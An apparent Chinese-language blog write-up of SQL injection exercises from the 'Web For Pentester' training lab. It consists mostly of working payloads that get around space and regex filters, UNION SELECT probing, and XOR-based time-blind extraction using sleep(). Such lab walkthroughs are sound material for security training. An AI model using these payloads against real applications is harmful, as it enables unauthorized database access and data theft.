 ```yaml
---
layout:     post
title:      "Web For Pentester - SQLi Part Tips"
date:       2016-10-30
categories: [pentest, Training documents, SQL injection]

---
```




### SQLi Example 1

最基础的字符型注入，无任何过滤

**name=root' and '1'='1**

### SQLi Example 2

过滤了空格，语句中若出现空格就会报错

> - 水平制表(HT) url编码：%09
> - 注释绕过空格   /\*注释\*/

**name=root'%09and%09'1'='1**

**name=root'/\*\*/union/\*\*/select/\*\*/1,2,3,4,5%23**

### SQLi Example 3

**name=root'/\*\*/union/\*\*/select/\*\*/1,2,3,4,5%23**

### SQLi Example 4

最基础的数值型注入，过滤了单引号

**id=2%20and%201=2**

### SQLi Example 5

```php
//代码片段
if (!preg_match('/^[0-9]+/', $_GET["id"])) {
    die("ERROR INTEGER REQUIRED");  
}
```

可以看出这里参数id必须以数字开头

**id=1/0 UNION SELECT 1,user(),3,4,5**

### SQLi Example 6

```php
//代码片段
if (!preg_match('/[0-9]+$/', $_GET["id"])) {
    die("ERROR INTEGER REQUIRED");  
}
```

可以看出这里参数id必须以数字结尾

**id=1 and 1=1%23123**

### SQLi Example 7

```php
//代码片段
if (!preg_match('/^-?[0-9]+$/m', $_GET["id"])) {
  die("ERROR INTEGER REQUIRED");    
}
```

这里使用了[PCRE_MULTLINE](http://www.php.net/manual/zh/reference.pcre.pattern.modifiers.php)(/m)，也就是说任意换行符之前或之后都必须是数字，那么就可以构造如下payload

**id=1%0a and 1=1**

### SQLi Example 8

使用XOR逻辑加时间盲注进行猜解

**order=name`  xor if(ascii(substring(user(),1,1))=111,sleep(5),0)%23**

### SQLi Example 9

这里过滤了“`”，可以使用XOR让第一个语句报错，第二个语句正确，页面显示正常

**order=1 xor if(ascii(substring(user(),1,1))=112,sleep(5),0)%23**















